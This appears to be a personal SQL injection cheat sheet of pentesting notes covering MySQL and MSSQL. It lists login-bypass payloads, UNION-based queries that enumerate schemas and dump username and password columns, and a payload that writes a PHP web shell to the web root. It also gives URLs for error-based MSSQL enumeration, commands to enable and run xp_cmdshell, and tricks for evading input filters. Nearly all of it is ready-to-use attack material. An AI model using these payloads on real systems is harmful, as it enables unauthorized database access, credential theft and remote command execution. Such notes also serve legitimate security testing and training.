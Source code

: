 # SQL injection 

## Login Bypass:   << replace ' with " if fail
  ' or '1'='1  
  ' or 1=1;--  
  ' or 1=1;#  
  ') or ('x'='x  
  ' or <column> like '%';--  
  ' or 1=1 LIMIT 1;--  

  USERNAME:   ' or 1/*  
  PASSWORD:   */ =1 --  

  USERNAME: admin' or 'a'='a  
  PASSWORD: '#  
  USERNAME: admin' or '1'='1
  PASSWORD: admin' or '1'='1

If the database is mysql, try to dump all login info to files?

Mysql
  '*'   
  '&'  
  '^'  
  '-'  
  ' or true;--   
  ' or 1;--  

union all select "<?php echo shell_exec($_GET['cmd']);?>",2,3,4,5,6 into OUTFILE '/var/www/html/shell.php'

## Enumeration
1. Confirm number of columns
order by 1 -- 100

2. union select
union select 1,2,3,4,5,6,7 to find which column will display info

3. Find databse name, user name, and version.  << must use group_concat for one liner
(select group_concat(database(),0x3a,user(),0x3a,version()))

4. Find table name
table_name                                      from information_schema.tables where table_schema=database()
(select group_concat(table_name) from information_schema.tables where table_schema=database())

5. Find columns 
column_name                                 from information_schema.columns where table_name='<Table_Name>'
column_name                                 from information_schema.columns where table_name=<HEX>
column_name                                 from information_schema.columns where table_name like <HEX>
(select group_concat(column_name) from information_schema.columns where table_name='dev_accounts')
(select group_concat(column_name) from information_schema.columns where table_name=0x6465765f6163636f756e7473)   << possible that some character are filtered out

6. Dump data
(select group_concat(id, 0x3A, username, 0x3A, password) from dev_accounts)

7. One liner to output all corresponding databse with table and columns
(select group_concat(table_schema,0x3a,table_name,0x3a,column_name) from information_schema.columns)
(select group_concat(table_schema,0x3a,table_name,0x3a,column_name) from information_schema.columns where table_schema=database())

	concat(table_schema,0x3a,table_name,0x3a,column_name)               from information_schema.columns where table_schema=database()

### MSSQL Enumeration: Error based 
https://www.exploit-db.com/papers/12975/

	Enumerate column and table name
	http://www.example.com/page.asp?id=1' HAVING 1=1--
	Error message: Column 'news.news_id' is invalid                 < table_name.column

	http://www.example.com/page.asp?id=1' GROUP BY news.news_id HAVING 1=1--
	Error message: Column 'news.news_author' is invalid           < table_name.column2

	http://www.example.com/page.asp?id=1' GROUP BY news.news_id,news.news_author HAVING 1=1--
	Error message: Column 'news.news_detail' is invalid             < table_name.column3

	Until no error

	Enumerate version, db name, users:
	http://www.example.com/page.asp?id=1+and+1=convert(int,@@version)--
	http://www.example.com/page.asp?id=1+and+1=convert(int,db_name())--
	http://www.example.com/page.asp?id=1+and+1=convert(int,user_name())--       << Is the user running as dbo or sa?

	xp_cmdshell << if running as database admin
	http://www.example.com/news.asp?id=1; exec master.dbo.xp_cmdshell 'command'
	'; exec master.dbo.xp_cmdshell 'command'



	On MSSQL 2005 you may need to reactivate xp_cmdshell first as it's disabled by default:
	EXEC sp_configure 'show advanced options', 1;--
	RECONFIGURE;-- 
	EXEC sp_configure 'xp_cmdshell', 1;-- 
	RECONFIGURE;--  

	On MSSQL 2000:
	EXEC sp_addextendedproc 'xp_anyname', 'xp_log70.dll';--


## SQL filter bypass
Beyond SQLi: Obfuscate and Bypass - https://www.exploit-db.com/papers/17934/

	AND, OR operators
	AND = &&
	OR = ||

	Comment operator << Mysql
	--  	
	#  
	/**/  

	Regular expression
	It is common that PHPIDS will block operators such as =, ', (), 
	table_name = 'users' X
	table_name between 'a' and 'z' X
	table_name between char(97) and char(122) X

	Convert strings to HEX format.
	table_name between 0x61 and 0x7a
	table_name like 0x7573657273

	Change case
	union > UniOn
	select > SeLect

	Inline comments << Mysql 5.0
	/*! <sql operator> */
